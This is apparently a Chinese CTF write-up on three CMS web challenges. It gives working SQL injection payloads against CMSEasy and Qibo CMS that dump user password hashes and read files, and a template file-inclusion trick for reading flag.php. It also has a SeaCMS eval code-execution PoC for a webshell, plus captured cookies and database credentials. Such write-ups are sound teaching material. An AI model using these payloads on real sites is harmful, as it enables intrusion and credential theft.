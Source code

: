 ```yaml
---
title: 百度杯CMS
date: 2018-03-16 00:00:00
categories:
- CTF/Web
tags: 百度杯九月 CMS SQL注入
--- 
```


## 识别CMS方法

### 在线识别

[http://www.yunsee.cn/](http://www.yunsee.cn/)

[http://whatweb.bugscaner.com/](http://whatweb.bugscaner.com/)

### 工具识别

- CMSmap
- WhatWeb

### 关键信息

- github
- 备案号
- 水印logo

### CMS漏洞查找

- [乌云镜像](http://wooyun.jozxing.cc/)
- [seebug](https://www.seebug.org/)
- [漏洞时代](http://0day5.com/)

## YeserCMS

### 识别CMS

点开一篇文章，在文章下面评论框中发现CMSEASY的水印，认定为CMSEASY

### CMS漏洞

用乌云镜像查到一堆漏洞，也只能找看起来容易利用的来尝试，最终使用[WooYun-2015-137013](http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0137013.html)，这个报错注入漏洞成功利用

### 利用漏洞


```HTTP

// 乌云给出的利用方式，payload本身经过两次url编码，但本题进行测验时，发现并不需要进行url编码也可利用成功

POST /celive/live/header.php

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520cmseasy_user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520</q></xjxquery>



// 两次url解码后，可看出是一个报错注入

POST /celive/live/header.php

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 数据库名

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(schema_name)) from information_schema.schemata),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 表名，发现前缀为Yesercms_

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(table_name)) from information_schema.tables where table_schema='Yeser'),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 猜测用户表为Yesercms_user

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 32位长度不够继续第二次

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),20,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

// 得到用户名以及密码hash，cmd5解密

admin::ff512d4240cbbdeafada404677ccbe61

admin::Yeser231

```

### getshell失败

通过漏洞库找到的getshell方法都没用，也没办法用load_file注入读出网站目录下的flag.php

在管理界面中模板->当前模板编辑中可看到类似文件读取的功能，抓包发现，可能为文件包含

```HTTP
POST /index.php?case=template&act=fetch&admin_dir=admin&site=default HTTP/1.1
Host: 0ffa855eb139493c98d79cb36dc98fb21d3584a2d80242da.game.ichunqiu.com
Proxy-Connection: keep-alive
Content-Length: 29
Accept: application/json, text/javascript, */*
Origin: http://0ffa855eb139493c98d79cb36dc98fb21d3584a2d80242da.game.ichunqiu.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://0ffa855eb139493c98d79cb36dc98fb21d3584a2d80242da.game.ichunqiu.com/index.php?case=template&act=edit&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,da;q=0.8
Cookie: PHPSESSID=93d011f88a4d727ff86158d96926ef75;passinfo=%E5%85%8D%E8%B4%B9%E7%89%88+%3Ca+href%3D%22http%3A%2F%2Fwww.cmseasy.cn%2Fservice_1.html%22+target%3D%22_blank%22%3E%3Cfont+color%3D%22green%22%3E%28%E8%B4%AD%E4%B9%B0%E6%8E%88%E6%9D%83%29%3C%2Ffont%3E%3C%2Fa%3E; login_username=admin; login_password=a94f8d9844c391a79ae9db9aa41d2c44; style=skin2

&id=#archive_d_list_page_html
```


尝试更改id，获得flag

```
&id=#../../flag.php
```

## 再见CMS

### 识别CMS

- 通过备案号：京ICP备050453号，百度可知为`齐博cms`
- 通过bugscaner扫描为：`php168`
- 后来知道`php168`就是`齐博cms`的前身（无奈...）

### CMS漏洞

用乌云镜像查到一堆漏洞，发现这个CMS特别爱留后门，但尝试一堆无果，最终使用[WooYun-2014-80259](http://wooyun.jozxing.cc/static/bugs/wooyun-2014-080259.html)这个注入漏洞

### 利用漏洞

管理员的密码哈希cmd5查不到，直接利用load_file读出flag.php文件

```HTTP
POST /member/userinfo.php?job=edit&step=2 HTTP/1.1
Host: e33c7daf395f4333ad03ce19153b2085b4030edb27934599.game.ichunqiu.com
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,da;q=0.8
Cookie: passport=3%09xuanxuan%09UlZVW1ANBlUDU1cFCQAPAg4CUFkFCAYEV14CBgEGDVU%3Dfdf97d74d9; USR=dvy0cwef%0934%091521126941%09http%3A%2F%2Fe33c7daf395f4333ad03ce19153b2085b4030edb27934599.game.ichunqiu.com%2F
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

truename=xxxx%0000&Limitword[000]=&email=xuanxuan@162.com&provinceid=,address=(select load_file(0x2F7661722F7777772F68746D6C2F666C61672E706870)) where uid=3%23
```

## Test

### 识别CMS

直接看标识为：海洋CMS

### CMS漏洞

- 漏洞时代：[海洋CMS V6.28代码执行0day](http://0day5.com/archives/4180/)
- freebuf：[漏洞预警：海洋CMS（SEACMS）0day漏洞预警](http://www.freebuf.com/vuls/150042.html)，不过出题的时候还没有这篇文章

### 利用漏洞

```
POC:/search.php?searchtype=5&tid=&area=eval($_POST[1]) 菜刀链接,密码为1
```

翻到`/var/www/html/data/common.inc.php`这个文件，拿到数据库信息，菜刀链接数据库拿flag

```
<?php
//数据库连接信息
$cfg_dbhost = '127.0.0.1';
$cfg_dbname = 'seacms';
$cfg_dbuser = 'sea_user';
$cfg_dbpwd = '46e06533407e';
$cfg_dbprefix = 'sea_';
$cfg_db_language = 'utf8';
?>
```


